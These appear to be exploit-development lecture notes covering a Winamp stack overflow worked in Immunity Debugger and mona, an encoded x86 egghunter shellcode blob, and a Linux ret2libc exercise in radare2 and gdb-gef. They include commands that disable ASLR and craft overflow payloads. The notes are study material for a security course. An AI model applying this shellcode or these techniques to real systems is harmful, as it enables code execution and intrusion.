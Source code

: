 # lecture 1

immunity: set options

* ignore exceptions (via: add latest) before pressing `shift-f9` to pass it
* set proper font (Consolas, regular, 14pt)

---

immunity debugger

* `alt-o` options
* `alt-c` CPU
* `alt-l` log (mona output)

---

winamp

* `alt-3` show file info (take a look at the exploit)
* `str-o` open playlist file
* `x` play

---

* `!mona config -set workingfolder Z:\WH3` (shared folder)
* run program in debugger!
* **`jmp esp`**
* `!mona jmp -n -r esp -cm safeseh=false,rebase=false,aslr=false`
  * find `jmp esp` (`-r` is target register)
  * `-n` skips addresses starting with NULL byte
  * `-cm` speficy options
  * this took very long! (much faster with `-cm`!)
* let's use `0x1a113749` gen_ff.dll
  * `break 0x1a113749`
    * immunity tends to forget breakpoints, so let's keep this
* we have space above our jmp esp
* **negative jump** up! (0xebe0) -> `jmp short -30`
  * works! but too 30 bytes are not enough space for our jmp back
  * neither are 127 bytes (max for negative jmp)
  * let's jump more!
* replace jmp esp + neg. jmp with: **sub esp, sub esp, jmp esp**

* `!mona egg -wow64 -winver10`

from egghunter.txt:

```sh
"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
"\xff\xe7"
```
convert it to bytes with python:

```python
eggh = "\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53" \
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c" \
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7" \
"\xff\xe7"

print(eggh)
```
direct it into a file:

```sh
gen.py > eggh.bin
r2  eggh.bin
aaa;Vpp
```

```sh
cat eggh.bin| msfvenom -p - -a x86 --platform win
 -e x86/alpha_mixed -f perl
```

# lecture 2

* https://amsi.fail/
* https://rastating.github.io/creating-a-custom-shellcode-encoder/
* https://medium.com/manomano-tech/a-red-team-operation-leveraging-a-zero-day-vulnerability-in-zoom-80f57fb0822e
* https://www.golem.de/news/csv-import-luca-app-ermoeglichte-code-injection-bei-excel-2105-156787.html

# task 3

```sh
md5 AAAAAAAA
# MD5(AAAAAAAA)= 41153e9946e683e15a29766ae0f568f8

echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

uname -a
# Linux kali 5.16.0-kali1-amd64 #1 SMP PREEMPT Debian 5.16.7-2kali1 (2022-02-10) x86_64 GNU/Linux

strings AAAAAAAA
# AAAAAAA.c
# fflush@@GLIBC_2.2.5
# __isoc99_scanf@@GLIBC_2.7

python3 -c "print('A'*1000)"|./AAAAAAAA
# sigsegv

# install ghidra
#  apt install ghidra
# install gdb gef
#  bash -c "$(curl -fsSL http://gef.blah.cat/sh)"

# radare2

cp AAAAAAAA bin
r2 -dAA bin # -d debug (run app), -AA analyze (aaaa)

# in r2:

iq # simple infos
ii # list imports
afll # verbose function list
afv # list variables in current scope

# r2 starts at 7fcd050 # `starti` in gdb
db entry0
db main # break @main
db # list breakpoints
Vpp # or V!
:dc # continue
g entry0 # goto

s main
pdf
s sym.copy
pdf

###
# https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
# stack not executable, can't run shellcode from it.
# point it to system() call in libc instead.

./expl.py # gen payload
gdb bin

# in gdb gef:
checksec # nx bit set! stack not executable.
break *main
ct # after ctrl-l
run < payload # use payload content as stdin input.
break *copy
continue
fin # if stepping into function, run until ret
bt # frame #1 is the next rip
x/8a $rsp-32 # show stack around $sp
# or sp alias
p $rbp # rbp is not the same as bp (longer)

break *copy+34 # ret
p system
p exit
search-pattern '/bin/sh'
```

# ret2libc

ROP unter Linux

* Global Offset Table (GOT)
    * global für das system (shared objects)
* Procedure Linkage Table (PLT)
    * konkrete funktionen aus (z.b.) libc reingelinked

```sh
elf-info
got
i proc m
```

wir brauchen address leak für 3b!

